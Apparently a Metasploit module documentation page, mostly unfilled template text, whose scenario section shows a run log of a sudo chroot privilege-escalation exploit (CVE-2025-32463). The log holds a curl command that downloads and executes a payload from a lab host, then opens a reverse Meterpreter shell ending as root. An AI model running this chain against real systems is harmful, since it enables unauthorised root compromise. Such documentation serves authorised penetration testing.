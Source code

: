 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell.

## Options
List each option and how to use it.

### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Version and OS

```
msf6 exploit(linux/local/sudo_chroot_cve_2025_32463) > run verbose=true 
[*] Command to run on remote host: curl -so ./YoGpAgWbO http://192.168.168.128:8080/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./YoGpAgWbO;./YoGpAgWbO&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Running version 1.9.16.2
[*] Writing '/tmp/Xw1XwkTPC' (117 bytes) ...
[*] Max line length is 65537
[*] Writing 117 bytes in 1 chunks of 420 bytes (octal-encoded), using printf
[*] Creating directory /tmp/ugJjJFSc9q
[*] /tmp/ugJjJFSc9q created
[*] Max line length is 65537
[*] Writing 216 bytes in 1 chunks of 763 bytes (octal-encoded), using printf
[*] Client 192.168.168.140 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.140 (curl/8.14.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Launching exploit...
[*] Sending stage (3090404 bytes) to 192.168.168.140
[+] Deleted /tmp/Xw1XwkTPC
[+] Deleted /tmp/ugJjJFSc9q
[*] Meterpreter session 10 opened (192.168.168.128:4444 -> 192.168.168.140:41672) at 2025-07-10 16:12:58 +0200

meterpreter > sysinfo 
Computer     : kali.kali
OS           : Debian  (Linux 6.12.25-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
